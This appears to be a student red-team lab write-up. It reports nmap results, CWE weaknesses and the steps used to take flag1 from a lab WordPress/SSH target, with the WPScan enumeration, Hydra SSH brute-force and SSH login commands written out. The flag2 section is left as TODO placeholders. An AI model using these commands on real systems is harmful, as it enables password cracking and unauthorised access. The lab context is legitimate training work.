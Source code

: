 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Network Topology
![Network Topology](/Images/Final_project_top.JPG)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS 192.168.1.110
```
![Nmap Scan](/Images/NmapScan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22	SSH
  - Port 80	http
  - Port 111	rpcbind
  - Port 139	netbios-ssn
  - Port 445	microsoft-ds

The following vulnerabilities were identified on each target:
- Target 1
  - CWE-200: Exposure of Sensitive Information to an Unauthorized Actor 
  - CWE-672: Operation on a Resource after Expiration or Release
  - CWE-521: Weak Password Requirements 
  - CWE-307: Improper Restriction of Excessive Authentication Attempts 
  - CWE-256: Unprotected Storage of Credentials
  - CWE-522: Insufficiently Protected Credentials
  - CWE-863: Incorrect Authorization Reverse shell vulnerability 

![SSHVuln](/Images/SSHVuln.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate users
        - wpscan --url 192.168.1.110/wordpress/ --enumerate u
        - ![WPScan](/Images/WPScan.png)
      - Use Hydra to crack michael's password or guess password
        - hydra -l michael -P /usr/shar/wordlists/rockyou.txt 192.168.1.110 ssh
        - ![Hydra](/Images/Hydra.PNG)
      - Use stolen credentials to SSH into michael's account
        - ssh michael@192.168.1.110
        - Password: michael
      - Search for Flag1
        - grep -rnw ./ -e 'flag1' 2>/dev/null
        - ![flag1](/Images/Flag1.PNG)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Include the command run_